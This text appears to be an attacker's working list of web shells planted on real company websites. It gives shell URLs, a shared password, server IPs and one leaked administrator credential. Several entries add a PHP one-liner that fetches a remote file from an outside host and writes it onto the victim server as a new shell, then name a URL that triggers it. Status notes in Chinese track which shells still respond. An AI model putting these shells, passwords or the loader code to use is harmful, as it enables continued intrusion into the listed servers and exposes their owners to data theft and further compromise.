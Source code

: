 http://zbyinyizhiye.com/common.php |mmk123 |  211.149.190.167
http://sdrechem.com/core.php |mmk123 |  211.149.190.167
http://www.sdygsteel.com/info.php |mmk123 |  211.149.190.167
http://ruience.com/core/lang/zh-cn.php |mmk123 |  211.149.190.167

https://www.crusher-world.com/Upload/_thumbs/Files/11.php |mmk123 |  150.109.70.87
代码更新：0608 ✅
https://www.crusher-world.com/Install/httpd.php
<?php file_put_contents("../Data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://www.crusher-world.com/Data/httpd.php?d=up

https://shredder-world.com/diy/22.php |mmk123 |  150.109.70.87
代码更新：0608 ✅
https://shredder-world.com/down/httpd.php
<?php file_put_contents("../job/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
https://shredder-world.com/job/httpd.php?d=up

https://utmachines.com/skin/js/2m12.php |mmk123 |  150.109.70.87 | 连接不上

https://ru.gearbox-world.com/Qiniu/2m12.php |mmk123 |  150.109.70.87 | 原链接打不开
https://www.taiyedrill.com/static/upload/image/20220827/3m.php |mmk123 |  47.92.31.194

https://www.huaeda.com/static/upload/image/20180413/2m12.php |mmk123 |  121.42.118.20 | 建立不了文件

http://hgkjds.cn/static/upload/image/20221024/3m.php |mmk123 |  103.96.148.48
代码更新：0608 ✅
http://hgkjds.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://hgkjds.cn/config/httpd.php?d=up

http://zktycataly.com//uploads/170311/12.asp |mmk123 |  103.56.113.2 | 连接不上

http://ehotsoft.com/uploads/160817/12.asp |mmk123 |  103.56.113.2

http://en.shanjiu.cn/static/upload/image/20230721/12.asp |mmk123 |administrator }$d3n/8Yx5FBz:L | 106.54.62.234
代码更新：0608 ✅
http://en.shanjiu.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://en.shanjiu.cn/config/httpd.php?d=up

http://fw.dkjx.cn/images/image.php |mmk123 |  106.54.62.234
代码更新：0608 ✅
http://fw.dkjx.cn/_private/httpd.php
<?php file_put_contents("../images/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://fw.dkjx.cn/images/httpd.php?d=up
